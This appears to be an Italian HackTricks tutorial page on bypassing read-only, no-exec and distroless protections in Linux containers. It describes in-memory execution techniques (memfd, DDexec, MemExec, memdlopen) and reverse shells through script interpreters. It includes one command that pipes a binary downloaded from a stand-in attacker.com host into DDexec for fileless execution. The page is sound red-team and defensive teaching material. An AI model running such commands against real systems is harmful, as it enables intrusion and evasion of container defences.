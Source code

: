 # Bypass FS protections: read-only / no-exec / Distroless

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Se sei interessato a una **carriera nell'hacking** e a hackare l'inhackabile - **stiamo assumendo!** (_richiesta di polacco fluente scritto e parlato_).

{% embed url="https://www.stmcyber.com/careers" %}

## Video

Nei seguenti video puoi trovare le tecniche menzionate in questa pagina spiegate più in dettaglio:

* [**DEF CON 31 - Esplorare la manipolazione della memoria Linux per stealth e evasione**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Intrusioni stealth con DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## scenario read-only / no-exec

È sempre più comune trovare macchine linux montate con **protezione del file system in sola lettura (ro)**, specialmente nei container. Questo perché eseguire un container con file system ro è facile come impostare **`readOnlyRootFilesystem: true`** nel `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Tuttavia, anche se il file system è montato come ro, **`/dev/shm`** sarà comunque scrivibile, quindi è falso che non possiamo scrivere nulla nel disco. Tuttavia, questa cartella sarà **montata con protezione no-exec**, quindi se scarichi un binario qui **non sarai in grado di eseguirlo**.

{% hint style="warning" %}
Da una prospettiva di red team, questo rende **complicato scaricare ed eseguire** binari che non sono già nel sistema (come backdoor o enumeratori come `kubectl`).
{% endhint %}

## Bypass più semplice: Script

Nota che ho menzionato i binari, puoi **eseguire qualsiasi script** purché l'interprete sia all'interno della macchina, come uno **script shell** se `sh` è presente o uno **script python** se `python` è installato.

Tuttavia, questo non è sufficiente per eseguire la tua backdoor binaria o altri strumenti binari che potresti aver bisogno di eseguire.

## Bypass in memoria

Se vuoi eseguire un binario ma il file system non lo consente, il modo migliore per farlo è **eseguirlo dalla memoria**, poiché le **protezioni non si applicano lì**.

### Bypass syscall FD + exec

Se hai alcuni potenti motori di script all'interno della macchina, come **Python**, **Perl** o **Ruby**, potresti scaricare il binario da eseguire dalla memoria, memorizzarlo in un descrittore di file in memoria (`create_memfd` syscall), che non sarà protetto da quelle protezioni e poi chiamare una **syscall `exec`** indicando il **fd come file da eseguire**.

Per questo puoi facilmente usare il progetto [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). Puoi passargli un binario e genererà uno script nel linguaggio indicato con il **binario compresso e codificato in b64** con le istruzioni per **decodificarlo e decomprimerlo** in un **fd** creato chiamando la syscall `create_memfd` e una chiamata alla syscall **exec** per eseguirlo.

{% hint style="warning" %}
Questo non funziona in altri linguaggi di scripting come PHP o Node perché non hanno alcun **modo predefinito per chiamare syscall raw** da uno script, quindi non è possibile chiamare `create_memfd` per creare il **fd di memoria** per memorizzare il binario.

Inoltre, creare un **fd regolare** con un file in `/dev/shm` non funzionerà, poiché non ti sarà permesso eseguirlo a causa dell'applicazione della **protezione no-exec**.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) è una tecnica che ti consente di **modificare la memoria del tuo stesso processo** sovrascrivendo il suo **`/proc/self/mem`**.

Pertanto, **controllando il codice assembly** che viene eseguito dal processo, puoi scrivere un **shellcode** e "mutare" il processo per **eseguire qualsiasi codice arbitrario**.

{% hint style="success" %}
**DDexec / EverythingExec** ti permetterà di caricare ed **eseguire** il tuo **shellcode** o **qualsiasi binario** dalla **memoria**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Per ulteriori informazioni su questa tecnica controlla il Github o:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) è il passo naturale successivo di DDexec. È un **DDexec shellcode demonizzato**, quindi ogni volta che vuoi **eseguire un binario diverso** non è necessario rilanciare DDexec, puoi semplicemente eseguire il shellcode di memexec tramite la tecnica DDexec e poi **comunicare con questo demone per passare nuovi binari da caricare ed eseguire**.

Puoi trovare un esempio su come usare **memexec per eseguire binari da una reverse shell PHP** in [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Con uno scopo simile a DDexec, la tecnica [**memdlopen**](https://github.com/arget13/memdlopen) consente un **modo più semplice per caricare binari** in memoria per eseguirli successivamente. Potrebbe anche consentire di caricare binari con dipendenze.

## Bypass Distroless

### Cos'è distroless

I container distroless contengono solo i **componenti minimi necessari per eseguire un'applicazione o servizio specifico**, come librerie e dipendenze di runtime, ma escludono componenti più grandi come un gestore di pacchetti, shell o utilità di sistema.

L'obiettivo dei container distroless è **ridurre la superficie di attacco dei container eliminando componenti non necessari** e minimizzando il numero di vulnerabilità che possono essere sfruttate.

### Reverse Shell

In un container distroless potresti **non trovare nemmeno `sh` o `bash`** per ottenere una shell normale. Non troverai nemmeno binari come `ls`, `whoami`, `id`... tutto ciò che di solito esegui in un sistema.

{% hint style="warning" %}
Pertanto, **non** sarai in grado di ottenere una **reverse shell** o **enumerare** il sistema come fai di solito.
{% endhint %}

Tuttavia, se il container compromesso sta eseguendo ad esempio un'app Flask, allora Python è installato, e quindi puoi ottenere una **reverse shell Python**. Se sta eseguendo Node, puoi ottenere una reverse shell Node, e lo stesso vale per quasi qualsiasi **linguaggio di scripting**.

{% hint style="success" %}
Utilizzando il linguaggio di scripting potresti **enumerare il sistema** utilizzando le capacità del linguaggio.
{% endhint %}

Se non ci sono protezioni **`read-only/no-exec`** potresti abusare della tua reverse shell per **scrivere nel file system i tuoi binari** e **eseguirli**.

{% hint style="success" %}
Tuttavia, in questo tipo di container queste protezioni di solito esistono, ma potresti utilizzare le **tecniche di esecuzione in memoria precedenti per bypassarle**.
{% endhint %}

Puoi trovare **esempi** su come **sfruttare alcune vulnerabilità RCE** per ottenere reverse shell di linguaggi di scripting ed eseguire binari dalla memoria in [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Se sei interessato a una **carriera nel hacking** e a hackare l'inhackabile - **stiamo assumendo!** (_richiesta di polacco fluente scritto e parlato_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}
